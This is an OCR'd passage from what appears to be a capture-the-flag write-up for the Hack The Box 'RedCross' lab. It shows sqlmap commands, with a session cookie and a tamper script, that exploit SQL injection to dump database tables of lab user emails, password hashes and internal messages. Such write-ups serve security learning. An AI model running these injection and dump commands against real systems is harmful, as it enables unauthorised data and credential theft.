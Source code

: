 ```
| 1  | admin@redcross.htb           | $2y$10$z/d5GiwZuFqjY1jRiKIPzuPXKt0SthLOyU438ajqRBtrb7ZADpwq. | 0    | admin    |
| 2  | penelope@redcross.htb        | $2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwfxqgAS | 1    | penelope |
| 3  | charles@redcross.htb         | $2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i | 1    | charles  |
| 4  | tricia.wanderloo@contoso.com | $2y$10$Dnv/b2ZBca2O4cp0fsBbjeQ/0HnhvJ7WrC/ZN3K7QKqTa9SSKP6r. | 100  | tricia   |
| 5  | non@available                | $2y$10$U16O2Ylt/uFtzlVbDIzJ8us9ts8f9ITWoPAWcUfK585sZue03YBAi | 1000 | guest    |
+----+------------------------------+--------------------------------------------------------------+------+----------+


xbytemx@laptop:~/htb/redcross$ sqlmap -u "https://intra.redcross.htb/?o=1&page=app" --cookie="PHPSESSID=le7n8htqei4pg268v1bm1vqtq1; LANG=EN_US; SINCE=1552972200; LIMIT=10; DOMAIN=intra;" --tamper=space2comment --random-agent -D redcross -T messages --dump

Database: redcross
Table: messages
[8 entries]
+----+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------+--------+----------------------------------------------+
| id | body                                                                                                                                                                                         | dest | origin | subject                                      |
+----+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------+--------+----------------------------------------------+
| 1  | You're granted with a low privilege access while we're processing your credentials request. Our messaging system still in beta status. Please report if you find any incidence.              | 5    | 1      | Guest Account Info                           |
| 2  | Hi Penny, can you check if is there any problem with the order? I'm not receiving it in our EDI platform.                                                                                    | 2    | 4      | Problems with order 02122128                 |
| 3  | Please could you check the admin webpanel? idk what happens but when I'm checking the messages, alerts popping everywhere!! Maybe a virus?                                                   | 3    | 1      | Strange behavior                             |
| 4  | Hi, Please check now... Should be arrived in your systems. Please confirm me. Regards.                                                                                                       | 4    | 2      | Problems with order 02122128                 |
| 5  | Hey, my chief contacted me complaining about some problem in the admin webapp. I thought that you reinforced security on it... Alerts everywhere!!                                           | 2    | 3      | admin subd webapp problems                   |
| 6  | Hi, Yes it's strange because we applied some input filtering on the contact form. Let me check it. I'll take care of that since now! KR                                                      | 3    | 2      | admin subd webapp problems (priority)        |
| 7  | Hi, Please stop checking messages from intra platform, it's possible that there is a vuln on your admin side...                                                                              | 1    | 2      | STOP checking messages from intra (priority) |
| 8  | Sorry but I can't do that. It's the only way we have to communicate with partners and we are overloaded. Doesn't look so bad... besides that what colud happen? Don't worry but fix it ASAP. | 2    | 1      | STOP checking messages from intra (priority) |
+----+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------+--------+----------------------------------------------+

xbytemx@laptop:~/htb/redcross$ sqlmap -u "https://intra.redcross.htb/?o=1&page=app" --cookie="PHPSESSID=le7n8htqei4pg268v1bm1vqtq1; LANG=EN_US; SINCE=1552972200; LIMIT=10; DOMAIN=intra;" --tamper=space2comment --random-agent -D redcross -T requests --dump
Database: redcross
Table: requests
```